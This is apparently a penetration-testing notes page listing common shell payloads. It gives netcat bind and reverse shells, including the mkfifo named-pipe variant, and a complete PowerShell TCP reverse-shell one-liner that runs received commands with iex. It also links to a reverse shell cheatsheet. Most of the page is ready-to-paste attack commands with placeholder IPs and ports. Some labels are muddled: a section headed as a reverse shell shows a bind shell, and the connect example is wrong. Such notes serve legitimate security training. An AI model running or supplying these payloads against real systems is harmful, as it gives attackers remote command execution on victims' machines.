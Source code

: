 # Common Shell Payloads

#### Netcat Payloads

1. **Bind Shell with Netcat**:
   *   In some versions of Netcat (like `nc.exe` on Windows and `netcat-traditional` on Kali), you can use the `-e` option to execute a process upon connection. For example, to set up a listener:

       ```bash
       nc -lvnp <PORT> -e /bin/bash
       ```
   *   Connecting to this listener with:

       ```bash
       nc <LOCAL-IP> <PORT> -e /bin/bash
       ```

       would result in a bind shell on the target.
2. **Reverse Shell with Netcat**:
   *   However, the `-e` option is not available in most versions of Netcat due to security concerns. Instead, for a bind shell on Linux, you can use:

       {% code overflow="wrap" %}
       ```bash
       mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
       ```
       {% endcode %}
   * **Explanation**:
     * This command creates a named pipe at `/tmp/f`, starts a Netcat listener, and connects the input of the listener to the output of the named pipe. Commands sent to the listener are piped into `sh`, with stderr redirected to stdout, completing the loop.
3. **Reverse Shell Command**:
   *   A similar command for a reverse shell is:

       ```bash
       mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
       ```
   * This command is nearly identical to the bind shell command but uses the Netcat connect syntax.

#### PowerShell Reverse Shell

*   When targeting modern Windows Servers, a PowerShell reverse shell is often required. Here’s a useful one-liner:

    {% code overflow="wrap" %}
    ```powershell
    powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
    {% endcode %}
* **Usage**: Replace `<IP>` and `<port>` with the appropriate values. This command can be executed in a `cmd.exe` shell or through other command execution methods (like a webshell) to establish a reverse shell.

#### Additional Resources

* For more common reverse shell payloads, check out [**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), a repository that contains a wide range of shell codes, usually in one-liner format for easy copying and pasting. It's a valuable resource to explore various options available for different programming languages.
